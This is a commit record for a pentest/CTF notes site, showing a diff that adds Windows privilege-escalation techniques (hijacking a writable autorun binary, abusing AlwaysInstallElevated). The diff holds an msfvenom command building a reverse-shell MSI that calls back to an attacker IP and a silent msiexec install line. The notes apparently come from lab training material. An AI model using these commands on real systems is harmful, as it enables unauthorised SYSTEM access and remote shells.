

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/privesc/windows.md, in a window 1280 px wide and 1400 px high, scrolled down 3557 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 4111 px from its top, so only the background shows below that.

Commit message:
add privesc win

````diff
--- a/docs/pentest/privesc/windows.md
+++ b/docs/pentest/privesc/windows.md
@@ -191,6 +191,53 @@ C:\PrivEsc>net start filepermsvc
 ...
 ```
 
+## Autoruns
+
+List autoruns :
+
+```powershell
+C:\Users\user>wmic startup get caption,command
+Caption         Command
+SecurityHealth  %windir%\system32\SecurityHealthSystray.exe
+My Program      "C:\Program Files\Autorun Program\program.exe"
+```
+
+If you can overwrite `C:\Program Files\Autorun Program\program.exe`, you can replace it by your reverse shell and wait for the `administrator` to log in.
+
+## AlwaysInstallElevated
+
+You can use the AlwaysInstallElevated policy to install a Windows Installer package with elevated (system) privileges (docs : [link](https://docs.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)).
+
+To install a package with elevated (system) privileges, set the AlwaysInstallElevated value to "1" under both of the following registry keys:
+
+- `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
+- `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
+
+```powershell
+C:\Users\user>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
+
+HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
+    AlwaysInstallElevated    REG_DWORD    0x1
+```
+
+```powershell
+C:\Users\user>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
+
+HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
+    AlwaysInstallElevated    REG_DWORD    0x1
+```
+
+Exploitation :
+
+```powershell
+# Attacker host
+$ msfvenom -p windows/x64/shell_reverse_tcp \
+	LHOST=10.9.52.138 LPORT=9000 -f msi -o reverse_installer.msi
+
+# Victim host
+c:\Users\user>msiexec /qn /i "C:\Users\user\reverse_installer.msi"
+```
+
 ## References
 
 - https://tryhackme.com/room/windows10privesc
````
Also changed, not shown: docs/pentest/networks/servers.md (+1 -1 lines), docs/pentest/privesc/windows-intro.md (+10 -0 lines).
